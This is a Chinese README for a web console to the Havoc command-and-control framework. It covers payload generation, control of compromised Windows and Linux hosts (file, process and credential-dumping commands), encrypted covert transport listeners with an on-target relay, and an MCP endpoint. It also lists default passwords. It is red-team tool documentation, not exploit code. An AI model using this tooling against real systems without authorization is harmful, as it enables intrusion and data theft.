# Havoc Web 控制台（webui）

浏览器端的 Havoc 0.7 控制台，**界面复刻 Qt 客户端（hexhub 深色主题）**：
菜单栏、会话表、右侧事件查看器、底部 dock 标签页，并实现了客户端的主要功能：
团队聊天、文件管理器（增删改查/上传下载/在线编辑）、进程列表、监听器增删改、战利品、团队服务器、
**载荷生成、会话图、扩展商店、Python 脚本与 Python 控制台、MCP 管理页（运行时启停 / 端口可配置）**，以及
**TCP / KCP / UDP / WebSocket / DNS / DoH / DoT / OSS 八种加密传输监听器**
（VShell 风格，AES-256-GCM + Vkey/EncryptSalt，配套 Go 中继器）。

**仅用于已获得明确书面授权的安全测试环境。** Qt 客户端、teamserver 与 9901 暂存链路都不改动；
webui 是一个独立进程（默认 `:8081`）。



### UI 对齐进度（hexhub 主题）

已对齐（P0 全局 chrome）：

| 项目 | 客户端（QSS/源码） | webui |
| --- | --- | --- |
| 底部状态栏 | 无 | 已删除，连接信息移到菜单栏右侧 |
| 菜单栏 | 28px，item `5px 10px`、圆角 4px、`#161719` | 一致 |
| Tab 栏 | 26px、`padding 0 14px`、选中 `#202224` + 2px `#4c9aff` | 一致 |
| 分隔条 | `QSplitter::handle` 1px `#2f3235` | 一致（上下 1px、左右可拖拽） |
| 事件查看器 | 可拖拽，约 30% 宽 | 默认 30%，拖拽/双击复位 |
| 表格 | 单元格居中、表头 600、`padding 5px 8px`、表头右边框、行高 30/22px | 一致 |
| 会话表 | 10 列等宽、ID 红色 `#ff5555`、Windows/Dead 图标 | 一致（图标来自客户端资源） |
| 字体 | 9pt `Monospace`（Noto Sans Mono CJK SC） | 同字体 12px |
| 进程列表 | 左 PPID 树 + 右表（名称 200/PID/PPID/会话/架构 70/用户 stretch）+ 底部刷新 | 一致 |
| 控制台 | QTextEdit 风格、`时间 [用户] Demon » 命令`、底部 `[User/Computer] process/PID Arch`、`>>>` 输入 | 一致 |
| help | Demon Commands 三列表（Command/Type/Description） | 108 条基线逐行一致 + 脚本命令；支持 `help <cmd>` |
| 战利品 | AgentID/显示下拉 + 表格 + 大图预览 | 一致 |
| 团队服务器 | teamserver 日志 QTextEdit，自动滚底 | 一致 |
| 登录页 | Connect 对话框 500×260 | 一致 |
| 聊天 | `日期 时间 [用户] :: 内容`、下划线/绿色、底部用户名 + 输入框 | 一致 |
| 菜单 | 五项菜单逐项对齐，视图含“会话视图 ▸ 表格/拓扑图”二级菜单 | 一致 |
| 载荷对话框 | 550×660：Agent/选项组/配置树（Injection 父子）/构建控制台 190px/居中生成 | 一致 |
| 会话图 | 顶部主视图，Qt 同构：防火墙根 + 左→右树 + 系统图标 + 绿/蓝/红实线箭头 | 一致 |
| 扩展商店 | 名称/作者两列 + 右侧详情 + 底部通栏安装 + 日志 | 一致 |
| 脚本管理 | 路径单列表 + 底部居中加载脚本（保留源码/命令/日志扩展区） | 一致 |
| 右键菜单 | 资源管理器子菜单、标记存活/死亡、导出/复制；`#1a1b1d`/`#26282b` | 一致 |

并排对照：`docs/ui-compare-main.png`（会话表+事件查看器）、`docs/ui-compare-files.png`（文件浏览器）、
`docs/ui-compare-procs.png`（进程列表）、`docs/ui-compare-console.png`（控制台）、`docs/ui-compare-login.png`（登录页）、
`docs/ui-compare-menu.png`（视图菜单与二级菜单）、`docs/ui-compare-store.png`（扩展商店）、
`docs/ui-compare-scripts.png`（脚本管理）、`docs/ui-compare-event.png`（事件查看器）、
`docs/ui-compare-listeners.png`（监听器）、`docs/ui-compare-payload.png`（载荷对话框）、
`docs/ui-compare-graph.png`（会话图）、`docs/ui-compare-loot.png`（战利品）、`docs/ui-compare-chat.png`（聊天）。

13 个视图总览：`docs/ui-parity-sheet.png`；tab 栏溢出滚动按钮：`docs/tabbar-scroll.png`；
菜单栏右侧指示器已按客户端移除，对照：`docs/ui-compare-topbar.png`。
详细进度与下一轮待办：`docs/ui-parity-progress.md`。

下一步：P2 滚动条/tooltip/空状态与整体像素打磨（含事件查看器首行裁切、标签宽度）。

---

## 1. 架构

```
浏览器（Windows/Linux 均可）
   │  HTTP / WebSocket（cookie 登录）
   ▼
webui 网关（Python 3 + aiohttp，:8081）
   ├── 一条 WSS 连接 → Havoc Teamserver（操作员 Neo）
   ├── Python 子进程（SDK / REPL / 脚本命令）
   └── 本地数据：data/loot、data/payloads、data/extensions
   ▲
   │  同一套广播
Qt 客户端（操作员 5pider，可同时在线）
```

- 网关只登录**一次** teamserver，缓存会话/监听器/事件/聊天/战利品/载荷构建状态。
- 网关断线自动重连；浏览器断线自动重连；登录态用 HMAC 签名 cookie，网关重启无需重新登录。
- 载荷生成通过 `Event=5 Gate Stageless` 交给 teamserver 本地交叉编译，结果回传后落盘。
- Python 脚本在**网关子进程**中运行，通过内部令牌调用网关 API 下发命令，不直接接触 teamserver。

## 2. 启动

推荐在仓库根目录一条命令同时拉起 Teamserver、Web 控制台和暂存服务：

```bash
cd /home/kali/桌面/Havoc
./start-all.sh            # 后台启动三者（幂等，已在运行的复用）
./start-all.sh --status   # 查看状态
./stop-all.sh             # 一起停止
```

只启动 / 停止网关：

```bash
cd /home/kali/桌面/Havoc/webui
./start-webui.sh          # 后台启动，健康检查通过后返回
./stop-webui.sh           # 停止
```

> 端口以 `config.json` 的 `web.port` 为准（默认 8081），启动脚本的健康检查与停止兜底都会读取该配置；
> `../start-all.sh` 会先等 teamserver 的 `40056` 就绪，再启动网关。

访问：`http://192.168.121.132:8081/`（Windows 侧同一网段可直接打开）

依赖：Python 3.11+、`aiohttp`、`websockets`、`Pillow`（缩略图），清单见 `requirements.txt`。

默认 Web 账号（**部署后请立即修改**）：

| 用户名 | 密码 |
| --- | --- |
| `admin` | `havoc1234` |

> Web 账号与 teamserver 操作员账号是**两套**：网关用 `config.json → teamserver.user`
> （默认 `Neo`）连接 teamserver；浏览器用 `web.user` 登录网关。

**MCP（外部程序调用 Web 全部功能）默认开启**：网关提供 `POST /mcp`
（Streamable HTTP），另有 stdio 入口 `python3 mcp_server.py --stdio`。
访问令牌在首次启动时生成到 `run/mcp.token`（0600）。详见第 10 节。

## 3. 配置（config.json）

```json
{
  "teamserver": { "host": "127.0.0.1", "port": 40056, "user": "Neo",
                  "password": "password1234", "shell_utf8": true },
  "web": { "host": "0.0.0.0", "port": 8081, "user": "admin",
           "password": "havoc1234", "session_ttl_hours": 12,
           "tls_cert": "", "tls_key": "" },
  "stager": { "url": "http://127.0.0.1:9901" },
  "store": { "mirror": "https://ghfast.top/" },
  "python": { "enabled": true },
  "mcp": { "enabled": true, "token": "", "token_file": "run/mcp.token",
           "state_file": "data/mcp_state.json", "port": 0, "host": "",
           "gateway_url": "" },
  "limits": { "events": 3000, "console_per_session": 3000, "tasks_per_session": 400 }
}
```

- `shell_utf8`：`shell` 命令自动加 `chcp 65001>nul &`，避免中文 Windows 输出被 teamserver 破坏成 `U+FFFD`。
- `store.mirror`：GitHub 直连不稳定时用于拉取商店目录/仓库的镜像前缀。
- `python.enabled`：关闭后所有 `/api/python/*` 与脚本执行返回 403（仍保留扩展商店安装）。
- `mcp.enabled`：MCP 总开关（`false` 时不挂载 `/mcp`，管理页显示“配置已禁用”且不能启动）；
  `mcp.token` 留空时自动生成/复用 `mcp.token_file`（0600）。
- `mcp.state_file`：MCP 运行态持久化文件，默认 `data/mcp_state.json`。管理页启停后写入
  `{"running": true|false}`，网关重启后恢复；删除该文件即回到“运行中”。
- `mcp.port`：MCP 监听端口。`0`=复用 WebUI 端口（`/mcp`）；`1..65535`=独立 MCP 端口，
  只在该端口提供 `/mcp`，WebUI 端口的 `/mcp` 返回 `404 moved`。管理页可直接修改并立即生效，
  成功后写回本文件；修改会清空现有 MCP 会话。
- `mcp.host`：独立 MCP 端口的绑定地址，留空跟随 `web.host`（如 `0.0.0.0`）。
- `mcp.gateway_url`：MCP 回环调用网关的基地址；留空时按 `web.host/port/tls_*` 自动推导
  （绑定非 `0.0.0.0` 地址或经反向代理时可显式指定，如 `http://127.0.0.1:8081`）。
- 可选 HTTPS：配置 `web.tls_cert` / `web.tls_key` 后自动启用 HTTPS/WSS。

## 4. 界面（对齐 Qt 客户端）

- **菜单栏**：`Havoc`（断开连接/重连/退出）、`视图`（监听器/会话视图▸表格·拓扑图/团队聊天/战利品/事件查看器/团队服务器）、
  `攻击`（一键上线/生成载荷/扩展商店）、`脚本`（加载脚本/Python 控制台）、`帮助`。
- **会话表**：ID、外部/内部地址、用户、计算机、系统、进程、PID、最后心跳、状态；
  「最后心跳」显示 teamserver 的绝对时间（`dd-mm-yyyy HH:mm:ss`，与 Qt 一致），tooltip 显示相对时间与 sleep/jitter；
  双击控制台，右键交互/文件浏览器/进程列表/标记 Alive-Dead/退出会话▸线程·进程/移除会话。
- **事件查看器**：右侧 dock，可关闭/重开。
- **底部 dock**：可拖拽高度，标签可关闭；团队聊天、`[id] User/Host`、`[id] File Explorer`、
  `[id] 进程列表`、监听器、战利品、团队服务器、扩展商店、脚本、Python 控制台；拓扑图为顶部主视图。

### 4.1 控制台

命令构造与 `client/src/Havoc/Demon/ConsoleInput.cc`、`CommandSend.cc` 一致；输出按任务归因。

- **help 全量表**：与 Qt 客户端结构一致（108 条 Demon 基线：35 条静态命令 + 73 条模块命令），
  列位置 `Command/Type/Description = 2/27/40`，按命令名排序；加载脚本后会追加脚本命令。
  Description 列已中文化（命令名、Type、Usage/Example 保持客户端原文）。
- **`help <command> [sub]`**：输出客户端一致的 Description / Behavior / Usage / Example，
  模块命令会列出子命令表；也接受 `proc help` / `config help inject.spawn64` 的写法。
- **静态命令**：`shell`、`powershell`、`sleep`、`interactive`、`checkin`、`task`、`job`、`proc`、
  `ps`、`dir/ls`、`cd`、`pwd`、`cat/type`、`download`、`upload`、`mkdir`、`remove`、`cp`、`mv`、
  `screenshot`、`inline-execute`、`dotnet`、`dll`、`shellcode`、`token`、`config`、`net`、`pivot`、
  `rportfwd`、`socks`、`transfer`、`luid`、`klist`、`purge`、`ptt`、`exit`、`clear`。
- **模块命令**：`client/config.toml` 中 15 个脚本注册的命令（whoami/arp/ipconfig/env/netstat、
  netGroupList、reg_*、sc_*、schtasks*、RemoteOps、nanodump、jump-exec 等）由 Web SDK
  在网关侧执行，BOF 仍经 teamserver 下发；`dotnet execute`、`powerpick` 的 `DllSpawn` 已支持。
- **文件参数**：`inline-execute` / `dll` / `shellcode` / `dotnet inline-execute` / `upload`
  需要的本地文件，可点输入框右侧 **上传**，网关保存到 `data/uploads/<demon>/` 并把服务器路径
  插入命令行。
- **交互**：`↑`/`↓` 命令历史，**按 Demon 隔离**（每会话独立、上限 200 条，`localStorage`
  持久化，最多保留 50 个会话）；`Tab` 补全命令、`help <cmd>` 与模块子命令；
  底部状态栏左侧实时显示当前命令的 Usage 参数提示。
- **下载**：`download` 完成后 teamserver 落地文件会复制到 `data/loot/<demon>/`，
  在「战利品 → 下载」中点击即可保存到浏览器；`transfer list/stop/resume/remove` 可用。



### 4.2 文件管理器（增删改查，Windows / Linux）

对齐客户端 `FileBrowser.cc` 的布局：**左侧目录树 + 右侧文件列表**（驱动器/文件夹图标）、
上级按钮 + 路径栏 + 新建/上传工具栏，列“名称/大小/修改时间/操作”。

支持的能力（对 Windows Demon 与 Linux Demon 同一套 UI）：

| 操作 | 入口 | 说明 |
| --- | --- | --- |
| 查 | 双击目录、路径栏、刷新 | `dir;ui` 列表；相对路径先向 agent 询问 `pwd`，树里显示绝对路径 |
| 增 | 新建目录 / 新建文件 / 上传 / 拖拽 | 新建文件可带初始内容；上传支持多选、拖放，单文件 ≤ 32 MiB |
| 改 | 编辑 / 重命名 / 移动到… / 复制到… | 文本编辑器（UTF-8/UTF-16/GBK 自动识别，Ctrl+S 保存）；目录复制走 `cp -a` / `Copy-Item -Recurse` |
| 删 | 右键删除 | 文件用 FS `remove`；非空目录可勾选“递归删除”（Linux `rm -rf`，Windows `Remove-Item -Recurse`，失败回退 `rd /s /q`） |
| 下载 | 双击文件 / 右键下载 | 触发 FS `download`，teamserver 落盘后由网关以附件流式返回浏览器 |

实现细节：

- 所有操作按会话串行化（`filemanager.py`），避免 teamserver FS 回包无 TaskID 时串台；
- Windows Demon 的 `upload` 是 `CREATE_NEW`，覆盖已有文件时先改名备份，上传失败自动回滚，
  成功后删除备份；Linux 直接覆盖；
- 列表/写入前若目录为空，会兼容旧版 Linux agent 对空目录返回 `Failed to enumerate` 的行为；
- 递归操作通过 shell 打印 `HAVOC_FM_DONE` 标记判定完成，再复查目录，避免盲目轮询；
- 编辑器限制 1 MiB，二进制文件只提供下载；下载与上传都写入操作员事件日志。




### 4.3 进程列表

`MiscType=ProcessUI` 数据 → 名称/PID/PPID/Session/架构/用户；右键结束进程（二次确认）。



### 4.4 团队聊天

与 Qt 客户端共用聊天广播；消息格式 `{用户名: base64(文本)}`，双向可见。

### 4.5 监听器（原生 + 加密传输）

列表 7 列（名称/模式/监听/外连/状态/加密/连接），支持：

- **Havoc 原生** `HTTP / HTTPS / SMB / External`：与原 Qt 客户端一致；
  HTTP(S) 新增「载荷代理」字段（HTTP/SOCKS5 + 主机/端口/账号），用于让 Demon 走代理回连；
  **回调主机 / 请求头 / 路径（URI）改为与客户端一致的动态多值列表**（Add/Clear/逐行删除），
  回调主机为空时自动回退到绑定地址；绑定地址与客户端一致改为下拉
  （teamserver IP / 127.0.0.1 / 0.0.0.0）；HTTP/HTTPS 默认端口 80/443；
  原生 HTTP 编辑时绑定地址/端口只读：teamserver 的 `ListenerEdit` **只应用 User-Agent、
  请求头、URI、代理**，`Hosts`（回调主机）/`HostRotation`/`HostHeader`/`Secure`/端口/绑定地址
  都不会重新应用（与 Qt 客户端一致，改这些请删除后重建）；
  SMB 只填管道名（不绑定端口，载荷用于枢轴；实测经父会话 `pivot connect` 成功上线）；External 注册 teamserver `40056`
  的 `POST /<端点>`，供第三方 C2/自定义 Agent 对接（不能生成 Demon 载荷）；
- **加密传输** `TCP / KCP / UDP / WebSocket / DNS / DoH / DoT / OSS`：
  由 Web 网关真实监听，HTP/1 握手（Vkey）+ AES-256-GCM 逐记录加密，
  EncryptSalt 派生会话密钥，可 zlib 压缩、随机填充；解密后隧道到
  `upstream`（Havoc HTTP 监听器）；
- **服务端插件监听器（service / custom listener）**：teamserver 的 Service 插件连接
  `/service-endpoint` 并通过 `ListenerAdd` 注册协议后，协议自动出现在「模式」下拉的
  **服务端插件监听器** 分组；选中后按插件 `Items` 动态生成表单（`required` 前端+网关双校验，
  `editable=false` 字段只读），创建时发送
  `{Name, Protocol:<插件协议>, ClientUser, <item.name>...}`，插件回执 `ListenerStart`
  后 teamserver 广播 `Listener.Add`，列表显示协议名与「插件定义」加密；
  teamserver 只实现 HTTP 编辑，插件监听器编辑弹窗为只读展示（主按钮变「关闭」），
  修改需删除重建；删除同样不会通知插件（teamserver 既有行为），插件端口可能继续占用；
- 选中传输监听器可「下载中继」：按目标系统/架构交叉编译内嵌配置的 Go
  中继器（Windows/Linux，amd64/386/arm64）。目标上运行后监听
  `127.0.0.1:1080`，把 Havoc HTTP 监听器的载荷代理指向它即可。

完整协议、字段、部署步骤与边界见 **[docs/TRANSPORTS.md](docs/TRANSPORTS.md)**。





